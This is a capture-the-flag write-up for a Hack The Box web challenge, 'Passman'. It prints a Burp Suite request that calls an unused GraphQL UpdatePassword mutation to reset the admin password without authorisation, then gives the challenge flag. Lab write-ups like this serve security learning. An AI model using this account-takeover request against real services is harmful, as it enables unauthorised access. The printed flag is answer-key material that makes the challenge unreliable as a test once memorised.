 # Passman (WEB)

Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?

## Writeup

1. After checking the source code has graphql, my first thought was graphql introspection, but after some digging I though there might be something to do with JWT. So I tried to break JWT, change algorithm and other tricks, but nothing works.

Then, I saw there is a `UpdatePassword` function in graphql, which is not used in website.

![hackthebox-passman](https://i.imgur.com/i0xlcTL.png)

2. Then I modified `AddPhrase` request to `UpdatePassword`

Here is the updated request from burpsuite

```
POST /graphql HTTP/1.1
Host: 142.93.38.14:32397
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://142.93.38.14:32397/dashboard
Content-Type: application/json
Origin: http://142.93.38.14:32397
Content-Length: 185
DNT: 1
Connection: close
Cookie: session=my-session

{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"admin"}}
```

On sending request it will show this response

```
{"data":{"UpdatePassword":{"message":"Password updated successfully!"}}}
```

So password updated to admin, and when you login with username and password both as admin, you will geth the flag.


## Flag:

`HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}`
